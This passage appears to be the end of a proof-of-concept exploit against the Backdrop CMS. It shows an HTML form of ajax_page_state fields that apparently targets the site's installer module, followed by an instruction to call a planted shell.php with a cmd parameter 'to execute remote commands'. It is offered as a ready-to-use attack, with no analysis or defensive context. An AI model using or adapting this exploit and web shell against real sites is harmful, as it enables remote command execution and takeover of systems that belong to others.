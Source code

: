                 <input type="text" name="ajax_page_state[css][core/misc/ui/jquery.ui.theme.css]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/html5.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery-extend-3.4.0.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery-html-prefilter-3.5.0.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery.once.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/backdrop.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/modules/layout/js/grid-fallback.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ajax.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery.form.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/modules/contextual/js/contextual.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/form.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/modules/admin_bar/js/admin_bar.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/modules/installer/js/installer.project_list.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/progress.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/tableheader.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/dismiss.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/themes/seven/js/script.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.data.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.disable-selection.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.form.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.labels.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.scroll-parent.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.tabbable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.unique-id.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.version.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.escape-selector.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.focusable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.form-reset-mixin.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.ie.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.keycode.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.plugin.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.safe-active-element.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.safe-blur.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.widget.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/textarea.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.button.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.mouse.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery.ui.touch-punch.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.draggable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.position.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.resizable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.dialog.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/dialog.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/dialog.ajax.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/collapse.js]" value="1">
                <input type="submit" value="Send">
        </form>
</body>
</html>   

Run on your browser: http://example.com/backdrop/modules/reference/shell.php?cmd=[command] to execute remote commands.
            
